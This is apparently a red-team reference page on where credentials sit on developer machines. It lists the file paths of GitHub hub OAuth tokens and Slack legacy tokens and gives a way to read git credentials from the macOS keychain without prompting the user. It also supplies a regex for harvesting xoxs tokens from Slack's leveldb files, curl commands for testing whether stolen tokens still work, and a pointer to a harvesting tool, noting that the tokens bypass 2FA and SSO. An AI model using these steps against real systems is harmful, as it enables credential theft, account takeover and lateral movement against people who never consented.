 # Credential Files
A collection of file paths where you might happen onto credentials, auth tokens, certificates, and keypairs useful for lateral movement.

## Dev & DevOps

### Github OAUTH Token
*Default path(s)*: `$HOME/.config/hub`, `$XDG_CONFIG_HOME/hub`  

*Description*: Contains Github OAUTH credentials and created by the `hub` tool. Bypasses 2FA/SSO if enabled.

*Using it*: The contents of the file can be copied to your personal machine and used as is with `git` or `hub` commands.

If you want to test the validity of the token run `curl -s -i -H 'Authorization: token <OAUTH_TOKEN>' https://api.github.com/`. A `200 OK` status indicates a valid token while a `401 Unauthorized`  means the token has gone stale and is unusable until the next successful authorization with the `hub` command 

Sample file

```
github.com:
- user: n0ncetonic
  oauth_token: 3a222191f33b2b3f83f8cd2f93c493e2cbdfecec
  protocol: https
```

#### Alternative
Alternatively if the system is macOS (I'll add notes on linux at a later date) and utilizing the `git credential-osxkeychain` credential manager scheme it is possible to query the user's keychain for the corresponding user's git credentials without alterting the user with an authorization request.

```
$ git credential-osxkeychain get
host=github.com
proto=https
```

> NOTE: When you press return on the initial git command your terminal will appear to hang. At this point type in the hostname to the git server you are interested in, press return again, enter proto=https (I have yet to try this with ssh key authentication, YMMV) and pretty return twice. After which the command will spit out your credentials.

## Email & Communication

### Slack OAUTH Tokens

* Default path(s)*:`$HOME/Library/Application\ Support/Slack/Local\ Storage/leveldb/*.log`, `$HOME/Library/Application\ Support/Slack/Local\ Storage/leveldb/*.ldb`, `$HOME/Library/Application\ Support/Slack/Local\ Storage/leveldb/MANIFEST-*`

*Description*: Contains Slack OAUTH "Legacy" token. Slack claims these are no longer in use but that appears not to be the case with their official desktop client (at least for macOS). Bypasses 2FA/SSO if enabled on the account.

> These tokens were associated with legacy custom integrations and early Slack integrations requiring an ambiguous "API token." They were generated using the legacy token generator and are no longer recommended for use. They take on the full operational scope of the user that created them. If you're building a tool for your own team, we encourage creating an internal integration with only the scopes it needs to work.
_From Slack developer documentation_

*Using it*: You'll need to run `strings` or similar on the files and look for strings that match the regex `/xoxs-\d+-\d+-\d+-[\da-f]+/` . If you're looking for a tool that will harvest the tokens as well as test if they are still valid take a look at [toke_em](https://github.com/n0ncetonic/toke_em)

 
Testing token validity: `curl -s https://slack.com/api/auth.test?token=xoxs-YOUR-TOKEN-GOES-HERE&pretty=1`


Full RTM Snapshot: `curl -s https://slack.com/api/rtm.start?token=xoxs-YOUR-TOKEN-GOES-HERE&pretty=1`

Otherwise just grab your favorite Slack RTM API module/library and connect using the Legacy token and watch as messages and events fire in real time.

